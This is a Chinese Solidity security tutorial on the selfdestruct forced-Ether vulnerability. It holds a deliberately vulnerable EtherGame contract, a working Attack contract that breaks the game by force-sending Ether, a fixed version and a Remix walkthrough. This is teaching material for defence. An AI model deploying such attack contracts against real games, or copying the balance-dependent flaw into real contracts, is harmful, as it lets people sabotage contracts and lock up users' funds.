

# 68.Self Destruct
合约可以通过调用selfdestruct从区块链中删除。
selfdestruct会将合约中剩余的所有以太币发送到指定的地址。
## 漏洞
恶意合约可以使用selfdestruct强制向任何合约发送以太币。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

// 这个游戏的目标是成为第七个存入1个以太币的玩家。
// 玩家每次只能存入1个以太币。
// 获胜者将能够提取所有以太币。

/*
1. 部署EtherGame
2. 玩家（例如Alice和Bob）决定玩游戏，每人存入1个以太币。
3. 部署攻击程序，并指定EtherGame的地址。
4. 调用Attack.attack函数，发送5个以太币。这将破坏游戏，没有人能成为赢家。

发生了什么？
攻击导致EtherGame的平衡被强制设置为7个以太币。
现在没有人能够存款，也无法设定获胜者。
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // 你可以通过发送以太币来轻松破坏游戏，以此来达到作弊的目的。
        // 游戏余额 >= 7 以太币

        // 转换地址为可支付地址
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```
不要依赖address(this).balance作为预防措施。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherGame {
    uint public targetAmount = 3 ether;
    uint public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
# remix验证
部署合约EtherGame，模拟两个不同玩家各转入1ETH，余额显示为2ETH。

部署合约Attack，输入合约EtherGame地址，调用attack（）函数并转入5ETH，结果发现虽然达到7个ETH，但并不能设置胜利者地址。

